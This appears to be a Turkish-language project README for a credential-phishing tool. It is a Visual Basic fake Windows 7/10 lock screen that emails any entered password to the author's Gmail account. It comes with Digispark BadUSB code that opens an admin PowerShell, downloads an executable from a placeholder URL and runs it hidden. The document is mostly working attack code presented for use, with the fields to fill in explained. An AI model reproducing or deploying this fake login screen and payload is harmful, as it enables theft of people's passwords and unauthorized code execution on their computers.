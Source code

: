 # WindowsFakeLockScreen

<strong>WIN7 OR WIN10 FAKE LOCK SCREEN MAIL SENDING</strong>

<img src="https://i.hizliresim.com/Ii5hUx.png">

<img src="https://i.hizliresim.com/COYKEc.png">

Üst kısımdaki resimden de anlayacağınız Windows 7 ve Windows 10 için sahte bir login ekranıdır.
Programı visual basic ile oluşturdum.
Mantık programda textbox kısmına girilen herhangi bir yazıyı belirlediğimiz mail adresine göndermektir.
Bu programı BadUSB ile birlikte kullanmak amaçlı oluşturdum ve BadUSB olarak Digispark kullandım.

<li>Amaç:</li>
<li>BadUSB yani Digispark bilgisayara takılır</li></li>
<li>Belirli kodlar çalışır</li>
<li>sahte login ekranı oluşur</li>
<li>Son olarak girilen şifre belirlediğimiz mail adresine gönderilir</li>

<blockquote>
<p><strong>NOT:</strong></p>
<p>Kaynak kodlar içerisindeki belirttiğim kısımları kendinize göre doldurun sizden sadece mail adresi ve şifresi istenmekte</p>
</blockquote>

Digispark ile ilgli bilgiye ulaşmak için: https://digistump.com/wiki/digispark bu adrese bakın

Sahte görüntü tamamen bir görseldir sadece TextBox ve Button olan kısım eklenmiştir butonun daha gerçekçi gözükmesi için PictureBox olarak ayarladım.

Programı Visual Studio 2013 Ultimate kullanarak hazırladım

<strong>PROGRAMIN KAYNAK KODU</strong>

<pre><code>Imports System.Net.Mail
Public Class Form1

    Private Sub Form1_Load(sender As System.Object, e As System.EventArgs) Handles MyBase.Load

    End Sub

    Private Sub PictureBox3_Click(sender As System.Object, e As System.EventArgs) Handles PictureBox3.Click
        Dim MyMailMessage As New MailMessage()

            Try
                MyMailMessage.From = New MailAddress("mailadress@gmail.com")
                MyMailMessage.To.Add("mailadress@gmail.com")
                MyMailMessage.Subject = TextBox1.Text
                MyMailMessage.Body = TextBox2.Text
                Dim SMTP As New SmtpClient("smtp.gmail.com")
                SMTP.Port = 587
                SMTP.EnableSsl = True
                SMTP.Credentials = New System.Net.NetworkCredential("mailadress@gmail.com", "PAROLA")
                SMTP.Send(MyMailMessage)
                TextBox2.Text = ""
                Dim frm As New Form1
                frm.Show()

                Me.Close()
            Catch ex As Exception
            End Try
    End Sub

    Private Sub TextBox1_KeyDown(sender As Object, e As KeyEventArgs) Handles TextBox1.KeyDown
        If e.KeyCode = Keys.Enter Then
            Dim MyMailMessage As New MailMessage()
            MyMailMessage.From = New MailAddress("mailadress@gmail.com")
            MyMailMessage.To.Add("MAILADRESI@gmail.com")
            MyMailMessage.Subject = TextBox1.Text
            MyMailMessage.Body = TextBox2.Text
            Dim SMTP As New SmtpClient("smtp.gmail.com")
            SMTP.Port = 587
            SMTP.EnableSsl = True
            SMTP.Credentials = New System.Net.NetworkCredential("mailadress@gmail.com", "POROLA")
            SMTP.Send(MyMailMessage)
            TextBox2.Text = ""
            Dim frm As New Form1
            frm.Show()

            Me.Close()

        End If
    End Sub

    Private Sub TextBox1_TextChanged(sender As Object, e As EventArgs) Handles TextBox1.TextChanged


    End Sub

End Class
</code></pre>

Kaynak kodlardan da görebileceğiniz gibi oldukça basit bir kodlamadır.
Aynı kodları kullanarak win7 ve win10 görseli hazırladım
Kodları ikinci defa yazmamın sebebi girilen texti hem enter tuşuna bastığında hem de ekrandaki ok işaretine bastığı zaman belirlediğimiz mail adresine göndermesi içindir.

<strong>Digispark kodları</strong>

<code><pre>#define kbd_tr_tr
#include "DigiKeyboard.h"
void setup() {
}

void loop() {
  //coder sefaoruc
  //youtube youtube.com/siberdunya
  //bu kodlar win10 için sahte bir login sayfası oluşturur
  //fake lock screen win10
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(200);
  DigiKeyboard.print(F("powershell Start-Process powershell -Verb runAs"));
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_ARROW_LEFT ,KEY_Y);
  DigiKeyboard.delay(200);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
  DigiKeyboard.print(F("Invoke-WebRequest -Uri ('DOWNLOAD_URL') -O C:/fakelock.exe"));
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.print("powershell -windowstyle hidden 'C:/fakelock.exe'");
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  for (;;) {
    /*son*/
  }
}
</code></pre>

Digispark kodlarını da bu şekilde oluşturdum

Mantık Powershell admin olarak başlatmak ve upload ettiğimiz win7 veya win10 exe dosyasını indirip çalıştırmaktır.


